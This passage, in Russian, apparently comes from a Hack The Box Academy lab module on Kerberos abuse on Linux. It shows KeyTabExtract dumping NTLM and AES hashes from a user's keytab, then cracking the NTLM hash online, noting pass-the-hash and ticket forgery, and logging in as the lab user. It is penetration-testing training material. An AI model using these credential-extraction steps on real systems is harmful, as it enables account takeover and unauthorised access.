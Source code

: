 **Примечание.** Чтобы сохранить билет из текущего сеанса, перед импортом таблицы ключей сохраните копию файла ccache, присутствующего в переменной среды. `KRB5CCNAME`.

### Извлечение Keytab

Второй метод, который мы будем использовать для злоупотребления Kerberos в Linux, — это извлечение секретов из файла keytab. Мы смогли выдать себя за Карлоса, используя билеты учетной записи, чтобы прочитать общую папку в домене, но если мы хотим получить доступ к его учетной записи на компьютере с Linux, нам понадобится его пароль.

Мы можем попытаться взломать пароль учетной записи, извлекая хэши из файла keytab. Давайте воспользуемся [KeyTabExtract](https://github.com/sosdave/KeyTabExtract) , инструментом для извлечения ценной информации из файлов .keytab типа 502, которая может использоваться для аутентификации компьютеров Linux в Kerberos. Сценарий извлечет такую ​​информацию, как область, субъект-служба, тип шифрования и хэши.

#### Извлечение хэшей Keytab с помощью KeyTabExtract

Извлечение хэшей Keytab с помощью KeyTabExtract

```shell-session
david@inlanefreight.htb@linux01:~$ python3 /opt/keytabextract.py /opt/specialfiles/carlos.keytab 

[*] RC4-HMAC Encryption detected. Will attempt to extract NTLM hash.
[*] AES256-CTS-HMAC-SHA1 key found. Will attempt hash extraction.
[*] AES128-CTS-HMAC-SHA1 hash discovered. Will attempt hash extraction.
[+] Keytab File successfully imported.
        REALM : INLANEFREIGHT.HTB
        SERVICE PRINCIPAL : carlos/
        NTLM HASH : a738f92b3c08b424ec2d99589a9cce60
        AES-256 HASH : 42ff0baa586963d9010584eb9590595e8cd47c489e25e82aae69b1de2943007f
        AES-128 HASH : fa74d5abf4061baa1d4ff8485d1261c4
```

С помощью хэша NTLM мы можем выполнить атаку Pass the Hash. С помощью хеша AES256 или AES128 мы можем подделать наши билеты с помощью Rubeus или попытаться взломать хэши, чтобы получить пароль в виде открытого текста.

**Примечание.** Файл пароля может содержать различные типы хэшей и может быть объединен, чтобы содержать несколько учетных данных даже от разных пользователей.

Самый простой хэш для взлома — это хеш NTLM. Мы можем использовать такие инструменты, как [Hashcat](https://hashcat.net/) или [John the Ripper,](https://www.openwall.com/john/) чтобы взломать его. Тем не менее, быстрый способ расшифровки паролей — онлайн-репозитории, такие как [https://crackstation.net/](https://crackstation.net/) , которые содержат миллиарды паролей.

![текст](https://academy.hackthebox.com/storage/modules/147/crackstation.jpg)

Как мы видим на изображении, пароль для пользователя Carlos `Password5`. Теперь мы можем войти как Карлос.

#### Войти как Карлос

Войти как Карлос

```shell-session
david@inlanefreight.htb@linux01:~$ su - carlos@inlanefreight.htb

Password: 
carlos@inlanefreight.htb@linux01:~$ klist 
Ticket cache: FILE:/tmp/krb5cc_647402606_ZX6KFA
Default principal: carlos@INLANEFREIGHT.HTB

Valid starting       Expires              Service principal
10/07/2022 11:01:13  10/07/2022 21:01:13  krbtgt/INLANEFREIGHT.HTB@INLANEFREIGHT.HTB
        renew until 10/08/2022 11:01:13
```
